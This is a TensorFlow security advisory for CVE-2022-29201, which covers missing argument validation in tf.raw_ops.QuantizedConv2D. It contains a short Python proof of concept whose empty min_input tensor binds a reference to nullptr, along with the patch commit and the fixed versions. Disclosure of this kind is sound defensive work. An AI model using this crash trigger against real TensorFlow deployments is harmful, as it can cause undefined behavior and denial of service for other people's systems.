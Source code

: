 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-075.md
## TFSA-2022-075: Missing validation results in undefined behavior in `QuantizedConv2D`

### CVE Number
CVE-2022-29201

### Impact
The implementation of [`tf.raw_ops.QuantizedConv2D`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/quantized_conv_ops.cc) does not fully validate the input arguments:

```python
import tensorflow as tf

input = tf.constant(1, shape=[1, 2, 3, 3], dtype=tf.quint8)
filter = tf.constant(1, shape=[1, 2, 3, 3], dtype=tf.quint8)

# bad args
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[], dtype=tf.float32)
min_filter = tf.constant(0, shape=[], dtype=tf.float32)
max_filter = tf.constant(0, shape=[], dtype=tf.float32)

tf.raw_ops.QuantizedConv2D(
  input=input,
  filter=filter,
  min_input=min_input,
  max_input=max_input,
  min_filter=min_filter,
  max_filter=max_filter,
  strides=[1, 1, 1, 1],
  padding="SAME")
```

In this case, references get bound to `nullptr` for each argument that is empty (in the example, all arguments in the `bad args` section).

### Patches
We have patched the issue in GitHub commit [0f0b080ecde4d3dfec158d6f60da34d5e31693c4](https://github.com/tensorflow/tensorflow/commit/0f0b080ecde4d3dfec158d6f60da34d5e31693c4).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
